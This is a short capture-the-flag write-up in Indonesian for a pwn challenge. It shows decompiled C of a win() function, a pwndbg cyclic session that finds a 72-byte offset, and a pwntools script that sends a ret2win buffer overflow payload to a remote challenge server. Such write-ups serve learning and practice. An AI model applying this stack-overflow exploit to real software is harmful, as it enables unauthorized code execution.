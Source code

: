 ```c=

void __noreturn win()
{
  char s[100]; // [esp+8h] [ebp-70h] BYREF
  FILE *stream; // [esp+6Ch] [ebp-Ch]

  stream = fopen("/flag.txt", "r");
  if ( !stream )
  {
    puts("Flag file not found!");
    exit(1);
  }
  fgets(s, 100, stream);
  printf("Admin Mode Baik Ni Flagnya Ngab: %s", s);
  fclose(stream);
  exit(0);
}
```

- Lakukan cyclic untuk mendapatkan offset ke saved $EBP.

```bash
pwndbg -q ./chall
break *vuln+47
break *vuln+81
cyclic 100
run
ni
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

continue
saaa
cyclic -l saaa
Found at offset 72
```

- Oke, langsung saja kita buat solver script-nya.

```python=
from pwn import *

context.binary = ELF("./chall", checksec=True)
exe = context.binary
host, port = "195.154.94.231", 50151

io = remote(host, port)
io.recvline()

payload = flat(
	b"A"*72,
	p32(0xdeadbeef),
	p32(exe.symbols['win']),
)
io.sendline(payload)
io.interactive()
```
